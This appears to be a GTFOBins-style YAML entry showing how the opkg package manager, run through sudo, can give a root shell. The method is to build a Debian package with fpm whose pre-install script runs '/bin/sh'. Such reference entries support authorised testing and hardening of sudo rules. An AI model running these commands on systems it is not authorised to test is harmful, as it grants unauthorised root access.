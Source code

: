 functions:
  sudo:
    - description: |
        It runs an interactive shell using a specially crafted Debian package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'exec /bin/sh' > $TF/x.sh
        fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo opkg install x_1.0_all.deb
---

